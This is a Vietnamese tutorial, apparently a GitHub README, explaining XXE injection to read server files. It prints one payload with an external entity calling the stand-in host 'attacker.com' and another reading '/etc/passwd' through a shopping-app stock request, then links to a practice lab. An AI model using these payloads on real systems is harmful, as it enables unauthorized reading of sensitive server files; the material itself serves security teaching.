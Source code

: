 # Overview:

Khai thác XXE để lấy các tệp tin, trong đó một thực thể ngoại vi được định nghĩa chứa nội dung của một tệp tin, và được trả về trong phản hồi của ứng dụng.

Việc khai thác XXE để lấy các tệp tin là khi kẻ tấn công chèn một thực thể ngoại vi vào tài liệu XML, chứa nội dung của tệp tin. Khi ứng dụng xử lý XML, nội dung của thực thể ngoại vi này được trả về trong phản hồi của ứng dụng.

Ví dụ:

```xml
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "http://attacker.com/malicious-file">
]>
<data>&xxe;</data>
```

Trong ví dụ trên, kẻ tấn công chèn một thực thể ngoại vi `xxe` và truy cập tệp tin `malicious-file` từ xa thông qua URL `http://attacker.com/malicious-file`. Dữ liệu từ tệp tin này sẽ được đưa vào tài liệu XML và trả về trong phản hồi của ứng dụng.

Việc khai thác XXE để lấy các tệp tin có thể gây ra những vấn đề bảo mật nghiêm trọng, bao gồm tiết lộ thông tin nhạy cảm, tấn công từ chối dịch vụ (DoS) và thực hiện các cuộc tấn công từ xa.

# Example:

Để thực hiện một cuộc tấn công tiêm nạp XXE nhằm lấy một tệp tin tùy ý từ hệ thống tệp tin của máy chủ, bạn cần sửa đổi XML gửi đi theo hai cách sau:

1. Thêm (hoặc chỉnh sửa) một phần tử DOCTYPE mô tả một thực thể bên ngoài chứa đường dẫn đến tệp tin.
2. Chỉnh sửa một giá trị dữ liệu trong XML được trả về trong phản hồi của ứng dụng, để sử dụng thực thể bên ngoài đã được định nghĩa.

Ví dụ, giả sử một ứng dụng mua sắm kiểm tra mức hàng tồn kho của một sản phẩm bằng cách gửi XML sau đến máy chủ:
```xml
<product>
  <id>123</id>
</product>
```

Để thực hiện cuộc tấn công XXE, bạn cần sửa đổi XML để chèn một phần tử DOCTYPE và một thực thể bên ngoài. Ví dụ:

```xml
<!DOCTYPE product [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<product>
  <id>&xxe;</id>
</product>
```

Trong ví dụ này, chúng ta đã chèn một phần tử DOCTYPE với một thực thể bên ngoài có tên là `xxe` và giá trị là `file:///etc/passwd`. Khi ứng dụng xử lý XML này, nó sẽ đọc nội dung của tệp `/etc/passwd` và trả về trong phản hồi của ứng dụng.

Ta sẽ thực hành [ở đây](https://github.com/Llam-a/XML-external-entity-XXE-injection/blob/main/Exercises/Lab1.md).

